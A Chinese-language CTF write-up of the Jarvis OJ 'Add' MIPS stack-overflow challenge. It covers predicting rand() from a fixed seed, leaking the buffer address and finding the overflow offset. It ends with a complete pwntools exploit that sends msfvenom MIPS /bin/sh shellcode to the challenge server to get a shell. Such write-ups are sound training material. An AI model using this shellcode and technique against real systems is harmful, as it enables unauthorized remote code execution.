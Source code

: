 ```yaml
---
title: Jarvis OJ - Add の Write-Up
date: 2021-01-28 13:35:37
categories:
- WriteUPs
- JarvisOJ
tags:
- PWN
- Stack
- MIPS
---
```

## Introduction

Add是MIPS架构的一道入门级别的栈溢出题，MIPS架构是一种采取精简指令集（RISC）的处理器架构。

<!-- more -->

## Step 1

checksec发现是MIPS架构的32位程序：

![](/img/Add/Add1.png)

连接到服务器端看下程序运行逻辑：

![](/img/Add/Add2.png)

看起来是个简单的加法计算器。

## Step 2

Ghidra反编译看下main函数的代码：

![](/img/Add/Add3.png)

![](/img/Add/Add4.png)

结合retdec反编译的C代码：

![](/img/Add/Add5.png)

在LAB_00400b18中有这样一个片段：

![](/img/Add/Add6.png)

根据main函数的代码发现buf放的是输入内容，而程序接受输入的时候是遇到\n才停止，所以存在输入过长导致栈溢出的问题。

上图中片段可以实现打印buf的地址，想要执行这个功能需要满足buf和challenge相等，buf是由我们控制的。

&emsp;&emspchallenge表面上是rand()生成的随机数，但是由于随机种子是由srand(0x123456)生成的，即为固定值，导致challenge也是固定值。

通过上面的分析我们可以得到栈上buf的地址，加上程序没有NX保护。所以当在buf中布置好shellcode控制程序跳转执行即可。

## Step 3

利用cyclic生成200个字节，通过调试发现溢出偏移量为112即0x70。这里要注意只有退出程序才会回到返回地址，所以最后需要一个退出的操作。

另外在调试中发现如果直接部署在buf上，在shellcode中指令会将/bin/sh字符串修改导致get shell 失败。所以需要将shellcode再偏移4或8和字节。

利用msfvenom生成payload：

![](/img/Add/Add7.png)

## Step 4

下面是PWN脚本：

```
from pwn import *
from ctypes import CDLL

sh = remote("pwn2.jarvisoj.com", 9889)

dll = CDLL('/lib/x86_64-linux-gnu/libc.so.6')
dll.srand(0x123456)
key = dll.rand()

sh.sendlineafter("help.\n", str(key))
sh.recvuntil("Your input was")
stack_addr = int(sh.recvline().strip(), 16)

buf =  b""
buf += b"\x66\x06\x06\x24\xff\xff\xd0\x04\xff\xff\x06\x28\xe0"
buf += b"\xff\xbd\x27\x01\x10\xe4\x27\x1f\xf0\x84\x24\xe8\xff"
buf += b"\xa4\xaf\xec\xff\xa0\xaf\xe8\xff\xa5\x27\xab\x0f\x02"
buf += b"\x24\x0c\x01\x01\x01\x2f\x62\x69\x6e\x2f\x73\x68\x00"

payload = '0'*4 + buf.ljust(0x70 - 4, '0') + p32(stack_addr + 4)

sh.sendline(payload)

sh.sendline('exit')

sh.interactive()
sh.close()
```

脚本运行结果：

![](/img/Add/Add8.png)
